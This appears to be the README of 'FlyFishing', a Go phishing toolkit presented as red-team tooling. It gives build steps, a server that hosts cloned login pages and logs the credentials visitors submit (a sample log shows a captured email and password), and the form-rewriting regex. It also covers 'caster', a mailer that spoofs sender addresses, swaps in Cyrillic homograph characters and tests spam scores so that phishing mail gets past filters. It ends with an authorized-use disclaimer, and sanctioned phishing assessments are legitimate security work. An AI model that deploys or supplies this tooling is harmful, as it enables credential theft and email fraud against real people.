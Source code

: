# FlyFishing 🎣
Quickly Deploy Phishing Webpages for Red Team Assessments 


# Description 🦠
Quickly deploy phishing webpages and cast phishing emails to lure victims in Red Team Assessments. This is a lighweight golang webserver which hosts the webpage locally or for one to host externally. Caster on the other hand is for casting phishing emails to given targets on an assessment.

# Deployment 🔨
```bash
git clone https://github.com/CharlesTheGreat77/FlyFishing
cd FlyFishing
go mod init main
go mod tidy
go build -o fishing main.go
```

# fishing 🎣
FlyFishing allows one to setup a local phishing webpage based on a given template. Templates can be found in **/templates** *or* found online.
```bash
./fishing -template templates/google.html
2024/09/23 06:16:27 [*] Server started at http://localhost:8888
2024/09/23 06:16:39 [*] Client IP visiting the page: 192.168.0.42:54773
2024/09/23 06:16:39 [*] Client IP visiting the page: 192.168.0.42:54773
2024/09/23 06:16:58 [*] Client IP on login: 192.168.0.42:54775
2024/09/23 06:16:58 [*] Received form data:
2024/09/23 06:16:58 Field: login_password, Value: admin1233
2024/09/23 06:16:58 Field: remember_me, Value: on
2024/09/23 06:16:58 Field: login_email, Value: admin@gmail.com
```

# Templates 📝
How are templates processed?
By using regex to locate action attribute(s) in the form and points such to our /login handler
```golang
re := regexp.MustCompile(`(?i)(<form[^>]*action=")([^"]*)(")`)
modified := re.ReplaceAllString(html, `${1}/login${3}`)
```
* Redirection is based on file name, save templates to **templates** with the correlating website which the form is for (ie. linkedin.html).
  Templates are encoded in base64 and displayed after 3 seconds of the page being visited.


# Caster 🎣
Caster allows one to send or modify given templates to send to targets. It allows one to test the score(s) of a given phishing email using *mail-tester.com* for the odds of the email landing in spam. By spoofing a given email by effectively manipulating the *headers* with a well made phishing email will hook 🪝 most if not all targets!

```bash
Usage of ./caster:
  -help
    	show usage
  -homograph
    	specify option to replace chars with cryillic
  -spamfilter
    	enable to get a given templates spam score
  -spoof string
    	specify address to spoof email from [keep spam in mind]
  -subject string
    	specify a subject to add to email
  -target string
    	specify target(s) email address [filename or seperated by commas]
  -template string
    	specify a template for the email
```

# Caster examples

Single Target
```bash
caster -template template.html -subject "RSVP Lunch" -spoof "Steven <michale@filamentco.org>" -target example@domain.com
```

Multiple Target(s)
```bash
caster -template template.html -subject "RSVP Lunch" -spoof "Steven <michale@filamentco.org>" -target example@domain.com,example2@domain.com
```

Target(s) in file
```bash
caster -template template.html -subject "RSVP Lunch" -spoof "Steven <michale@filamentco.org>" -target emails.txt
```
* emails in file must be seperated by line.


Modify template to replace chars with homographic (cryillic) lookalikes
```bash
caster -template template.html -homograph
```

Testing phishing emails with spamfilter
```bash
caster -template template.html -subject "RSVP Lunch" -spoof "Steven <michale@filamentco.org>" -spamfilter
```
* sends phishing email to mail-tester.com to retreive **spam** score. [default mail-tester email is hardcoded]

## Spamfilter
The spamfilter email to test phishing email spam scores can be changed to an "updated" email of your choice.
1. Visit https://mail-tester.com
2. Copy Link Email
3. Paste email on line **217**
```golang
	tempMail := "test-sxzd09jk9@srv1.mail-tester.com"
```

# Todo 🧾
* AI template creation [ ]
* Email Obfuscation [x]

# But why FlyFishing? 🤔
After a previous phishing assessment, I wanted to highlight the ease of spinning up cloned phishing pages within around 20 minutes from start to finish. This would allow anyone with limited time to get crackin' wit creds! 🔥


# Credits 🪙
Templates: https://github.com/htr-tech/zphisher/tree/master/.sites

# Disclaimer 🚩
This program should only be used on environments that you own or have explicit permission to do so. The author will not be held liable for any illegal use of this program.

